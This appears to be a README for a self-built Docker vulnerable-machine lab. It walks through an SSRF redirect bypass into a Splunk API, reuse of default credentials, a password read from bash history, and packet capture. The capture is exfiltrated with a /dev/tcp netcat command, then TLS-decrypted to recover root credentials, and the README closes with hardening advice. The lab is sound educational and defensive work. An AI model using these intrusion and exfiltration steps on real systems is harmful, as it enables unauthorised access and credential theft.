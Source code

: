 # Attack-The-Box

I've played plenty of HackTheBox and it's a great way to get to know your way around different operating systems and to learn about and interact with new technologies you might not have had the chance to otherwise. I was always amazed by level of complexity and detail that goes into some of the machines so I felt the learning experience in making a vulnerable machine must be a level up entirely from playing them. As a result I made a network of a couple docker containers where a user can go from external access to root inside a container.

# Machine Summary

Running `start.sh` launches `docker-compose` to create a node app at `172.18.0.2` and a splunk instance at `172.18.0.3`. The script sets the iptables rule `iptables -A OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` which has the effect of simulating a publically exposed web app with the splunk instance in a private network. (I couldn't find a way to isolate the splunk container from the host using docker networking as the host always gets assigned as the default gateway on any docker network I defined. I did have the idea to add the node and splunk containers to a driver: none network

The web app is the SSRF app from my `Vulnerable-Web-App` repo. We can leverage the SSRF to make requests to the splunk instance even though the app backend filters out private addresses from the `webhookURL` input. If we stand up a php server and a script redirecting to the splunk container, we can reach the endpoint `172.18.0.3:8089/services/authentication/users` and have this page sent to a netcat listener at the specified `payloadURL`. From this we can see an `admin2` user.

Knowing weak credentials `admin:user` were in use, we can try an authenticate with these over `ssh` to the web app container which works. From here we could try and pivot to the `splunk` container with `ssh`, hoping for credential re-use but this doesn't work. Looking around the filesystem we can read admin's `.bash_history` which reveals a mistake in a `sudo -u` command which exposes `admin2's` password.

We find we can pivot to the splunk container with the found credentials over `ssh`.

Being a splunk admin in the container, `admin2` has sudo privileges to list and read files in `/opt/splunk`. We can use this to read configuration files which reveal an encrypted RSA private key used to encrypt traffic to the splunk management service on port 8089, as well as the `sslPassword` used to encrypt the RSA key. We can use `openssl` to decrypt the key. `admin2` also has sudo privileges to run `tcpdump` on the loopback interface- presumably for troubleshooting purposes. 

We can upload `pspy64` to find a root owned cron running each minute, called `health_check.pl`. This script sounds like it could be generating traffic so we can use tcpdump to capture packets and save it to a `pcap`. We can exfil the `pcap` to our attacking box along with the RSA private key and use `tshark` to decrypt the traffic if the key exchange isn't Diffie-Hellman based. Decrypting the traffic reveals requests to `127.0.0.1:8089/services` using basic authentication, so the username and password appear base64 encoded in the `Authorization` header. Now we have essentially cleartext root credentials on the box so we can `su -` to root!

# Speedrun

<img src="images/health_check.png">

Skipping host and service enumeration (it's boring and the same every time), I'll visit the site at `172.18.0.2:5000`. Essentially it says to set a `webhookURL` and a `payloadURL`, and the server will make a request out to the `webhookURL` and send the results to the `payloadURL`. Trying any private addresses or obfuscation/encoding thereof returns a `host not allowed` message so we'll need another approach. A common trick is to get the server to reach out to you and redirect it on the desired target, bypassing any serverside filtering. This can be done in `php` with the `header()` function and the `Location:` HTTP header.

<img src="images/re.png">

I'll make a file `re.php` and host it on my box with `php -S 0.0.0.0:8001` to start a basic `php` server serving on all interfaces at port 8001. `re.php` uses the `header()` function to pass the request into the 'private' network by specifying  `Location: whatever`. In this case, 'whatever' is the `/services/authentication/users` endpoint on the management API at port 8089. This endpoint requires authorization, but Splunk <7.1.0 allows remote login with default credentials which can be easily found to be `admin:changeme`. Further, the endpoint uses basic authorization which means the credentials are sent base64 encoded in the `Authorization:` header, alternatively, we can specify the credentials in the URL like we can do with FTP. 

<img src="images/res.png">

Starting a netcat listener at the `host:port` shown in the first image, we receive the contents of the Splunk management API endpoint specified above. 

<img src="images/user.png">

I copied the relevant portion to a file and prettified the output with `jq`. We can see an `admin2` user.

<img src="images/access.png">

Doing a light password spray against known users on the web container, we find the password `changeme` has been reused for `admin`. We can simply `ssh` into the box now.

<img src="images/splunk-access.png">

A good first place to look for creds is always `.bash_history`. In this case we see an erroneous `sudo` command which potentially exposes `admin2's` credentials. We can try pivot into the Splunk container with `ssh` and `admin2:changeme2`. Running `id` shows we're in the `sudo` group, and we know the user's password. 

<img src="images/sudo.png">

Running `sudo -l`, we find we can run `tcpdump` on localhost and can list directories and read any file in `/opt/splunk`. The file `opt/splunk/etc/auth/server.pem` contains the certificate and encrypted RSA private keys generated when splunk is first installed on the machine. We may be able to use this to decrypt HTTPS traffic between clients the server.

<img src="images/sslpass.png">

The password used to encrypt the above RSA key is static across splunk instances however and is in cleartext in `/opt/splunk/etc/system/default/server.pem`. 

<img src="images/traffic.png">

With my other `sudo` privilege, I'll run `tcpdump` for a short while to see what traffic I can capture, and send the output to `output.pcap`. I'll exfil this file by running `nc -nvlp 7777 > output.pcap` on my box and `cat output.pcap > /dev/tcp/172.18.0.1/7777` on the victim.

<img src="images/rootcreds.png">

I'll copy the key over to my box in a file `enc.pem` and run `openssl rsa -in enc.pem -out dec.pem` which will prompt me for the `sslPassword` and write the decrypted key to `dec.pem`. Now I'll use `tshark` to try and decrypt the traffic using the plaintext RSA private key. 'Grepping' for known headers, we can spot the basic authorization header which reveals root's credentials. Run `su -` and its job done.



Finally run `sudo iptables -D OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` to delete the iptables rule set in `start.sh`.

# Hardening Strategies
- Network segmentation to prevent SSRF. Does the web app need to be able to talk to splunk? Perhaps because the app  may forward logs to the splunk deployment server on port 9097, in which case reserve a port on the web app container to send logs from and firewall off other ports. If they don't need to talk at all, could segment with VLANs.
- Configure the `node` app not to follow redirects by specifying `{ maxRedirects: 0 }` in `axios.get()`
- Use PAM to enable a strong password policy for SSH. Edit `minlength, minclass, maxrepeat` in `/etc/pam.d/common-password`.
- Disable `ssh` password authentication with the line `PubkeyAuthentication yes` in `/etc/ssh/sshd_config`.
- Better yet disable `ssh` if not needed with `sudo systemcl disable ssh`.
- Try and avoid password reuse by educating users, centralized authentication e.g. Kerberos, LDAP, or enforce MFA.
- Keep software patched and up to date. Versions of splunk >7.1.0 don't allow remote login using default credentials, and force the user to provide a new password on first local login.
- Use the principle of least privilege. Does `admin2` need to be able to read *every* file in `/opt/splunk`, do they *need* to be able to capture traffic on localhost, if yes can they make do with only certain ips/ports/protocols.
- Weak crypto. The perl script in the root cron specified a weak cipher suite `AES128-SHA256`. A DH based key exchange offers perfect forward secrecy, so knowledge of long term secrets like the server's private key isn't enough to decrypt the traffic.

Any one of the above hardening techniques has the potential to completely halt the attack flow from proceding to the next step. This is why defense in depth is such a powerful concept.
